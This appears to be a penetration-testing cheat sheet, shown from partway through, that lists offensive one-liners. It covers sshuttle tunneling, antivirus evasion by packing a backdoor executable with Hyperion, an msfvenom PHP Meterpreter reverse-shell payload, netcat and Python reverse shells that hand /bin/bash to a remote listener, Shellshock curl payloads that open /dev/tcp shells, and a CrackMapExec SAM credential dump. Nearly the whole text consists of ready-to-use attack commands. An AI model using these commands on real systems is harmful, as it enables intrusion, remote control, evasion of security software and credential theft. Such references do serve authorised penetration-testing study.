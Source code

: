 ```
    echo -ne "\033]0;${1}\007"

**Tunneling:**

sshuttle is an awesome tunneling tool that does all the hard work for
you. It gets rid of the need for proxy chains. What this command does is
tunnels traffic through 10.0.0.1 and makes a route for all traffic
destined for 10.10.10.0/24 through your sshuttle tunnel.

-   `sshuttle -r root@10.0.0.1 10.10.10.0/24`

**AV Bypass:**

-   wine hyperion.exe ../backdoor.exe ../backdoor_mutation.exe

    -   wine and hyperion need to be installed.

**Web hosts**

-   `python -m SimpleHTTPServer 80`
    -   Basic HTTP Server. Will list the directory it’s started in.
-   `service apache2 start`
    -   Starts Apache web server. Place files in /var/www/html to be
        able to ‘wget’ them.

### **Php Meterpreter Shell (Remove Guard bit)**

-   `msfvenom -p php/meterpreter/reverse_tcp LHOST=????????? LPORT=6000 R > phpmeterpreter.php`

### **Netcat**

-   Listener: `nc -lvp <PORT>`
    -   Listen verbosely on a port.
-   Target:`nc -e /bin/bash listeneripaddress listenerport`
-   or `ncat -v -l -p 7777 -e /bin/bash`
-   Host:` cat happy.txt | ncat -v -l -p 5555 `Target:
    `ncat localhost 5555 > happy_copy.txt `
    -   Download file via ncat

### **Reverse shell using interpreters ([http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet))**

-   `python -c python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
-   `python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('127.0.0.1',9000))\nwhile 1: proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"`

### **Shellshock**

-   `curl -x TARGETADDRESS -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/HOSTIP/1234 0>&1" TARGETADDRESS/cgi-bin/status`
-   `curl -x 192.168.28.167:PORT -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/192.168.28.169/1234 0>&1" 192.168.28.167/cgi-bin/status`
-   `ssh username@IPADDRESS '() { :;}; /bin/bash'`
    -   Shellshock over SSH

CrackMapExec 
============

-   crackmapexec smb 10.0.0.1/24 -u administrator -p 'password' --local-auth --sam

```